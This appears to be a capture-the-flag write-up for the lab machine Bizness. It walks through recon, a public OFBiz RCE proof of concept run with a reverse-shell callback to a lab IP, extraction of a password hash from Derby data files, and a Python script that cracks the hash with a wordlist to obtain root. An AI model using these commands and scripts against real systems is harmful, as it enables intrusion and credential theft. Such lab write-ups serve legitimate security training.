







<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>C4rm3l0</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>January 6, 2024</span>
    </div>
  </div>

</div>

## Recon

### Nmap

``` bash
$ nmap -sC -sV 10.10.11.252 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-06 20:03 WET
Nmap scan report for 10.10.11.252
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.89 seconds

```
| Port | Service |
|:----:|:-------:|
|  22  |   SSH   |
|  80  |   HTTP  |
|  443 |  HTTPS  |

### Gobuster

``` bash
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://bizness.htb/ -k --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://bizness.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/control              (Status: 200) [Size: 34633]

```

Found /control directory


## Foothold

### ofbiz

We now know ofbiz is running on the webserver.
Doing some googling, I found this [CVE](https://socprime.com/blog/cve-2023-49070-exploit-detection-a-critical-pre-auth-rce-vulnerability-in-apache-ofbiz/).
By using this [POC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) we can get a shell.

First make sure you are using openjdk 11
``` bash
$ update-alternatives --config java
```


Then start a listener and run the POC
```bash
$ python3 exploit.py https://bizness.htb/ shell 10.10.14.4:1337
```


Now just get the user flag

## PrivEsc

### Hash Decrypt

Looking through ofbiz files, I came accross a directory with a huge list of .dat files.


By running strings on this directory and grepping for the word "Password", we get a hashed password.

> Directory: /opt/ofbiz/runtime/data/derby/ofbiz/seg0
```bash
$ strings * | grep Password
```


With the following python script, we can decrypt this hash.
``` python
import hashlib
import base64

# Function to hash a value using SHA1 with a provided salt
def sha1_hash_with_salt(value, salt):
    hash_obj = hashlib.sha1()
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value.encode('utf-8'))
    return hash_obj.digest()

# Function to check if a hashed value matches a target hash
def check_hash(wordlist_file, target_hash, salt):
    with open(wordlist_file, 'r', encoding='latin-1') as file:
        for line in file:
            password = line.strip()
            hashed_password = sha1_hash_with_salt(password, salt)
            encoded_hashed_password = base64.urlsafe_b64encode(hashed_password).decode('utf-8').replace('=', '')
            if encoded_hashed_password == target_hash:
                print(f'Found Password: {password}')
                return
        print('Password not found in the wordlist.')

# Define the target hash and salt
target_hash = 'uP0_QaVBpDWFeo8-dRzDqRwXQ2I'  # Remove "$SHA1$d$" and use only the hash value
salt = 'd'

# Replace wordlist_file with the path to your wordlist
wordlist_file = '/usr/share/wordlists/rockyou.txt'

# Call the function to check the hash against the wordlist
check_hash(wordlist_file, target_hash, salt)

```



This is the root password, just su to root and get the root flag
